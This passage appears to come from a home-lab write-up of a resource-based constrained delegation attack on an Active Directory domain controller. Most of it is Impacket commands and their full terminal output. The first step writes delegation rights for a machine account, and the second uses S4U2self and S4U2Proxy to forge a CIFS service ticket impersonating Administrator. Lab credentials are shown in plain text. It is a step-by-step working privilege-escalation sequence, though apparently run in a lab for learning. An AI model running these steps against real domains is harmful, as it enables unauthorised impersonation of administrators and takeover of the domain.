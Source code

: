 ```bash
impacket-rbcd -delegate-from 'NewComp$' -delegate-to 'DC01-FURIOUS5$' -dc-ip 192.168.129.140 -action 'write' 'furious.local/jcharles:complex1@'
```

```
┌──(kali㉿kali)-[~/Home-lab/rbcd]
└─$ impacket-rbcd -delegate-from 'NewComp$' -delegate-to 'DC01-FURIOUS5$' -dc-ip 192.168.129.140  -action 'write' 'furious.local'/'jcharles':'complex1@'

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Accounts allowed to act on behalf of other identity:
[-] SID not found in LDAP: S-1-5-21-3290932372-4080220911-1111251399-1141
[-] SID not found in LDAP: S-1-5-21-3290932372-4080220911-1111251399-1142
[*] Delegation rights modified successfully!
[*] NewComp$ can now impersonate users on DC01-FURIOUS5$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[-] SID not found in LDAP: S-1-5-21-3290932372-4080220911-1111251399-1141
[-] SID not found in LDAP: S-1-5-21-3290932372-4080220911-1111251399-1142
[*]     NewComp$     (S-1-5-21-3290932372-4080220911-1111251399-1143)

```

---

### 3. Get a Service Ticket for Administrator

We now impersonate the `Administrator` account and request a CIFS service ticket using `getST.py`.

```bash
impacket-getST -spn 'cifs/DC01-FURIOUS5.furious.local' -impersonate administrator -dc-ip 192.168.129.140 'furious.local/NewComp$:password123'
```

```bash
┌──(kali㉿kali)-[~/Home-lab/rbcd]
└─$ impacket-getST -spn 'cifs/DC01-FURIOUS5.furious.local' -impersonate administrator -dc-ip 192.168.129.140 'furious.local/NewComp$:password123'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
/usr/share/doc/python3-impacket/examples/getST.py:380: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:477: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2self
/usr/share/doc/python3-impacket/examples/getST.py:607: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:659: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_DC01-FURIOUS5.furious.local@FURIOUS.LOCAL.ccache
                                                                             
```

---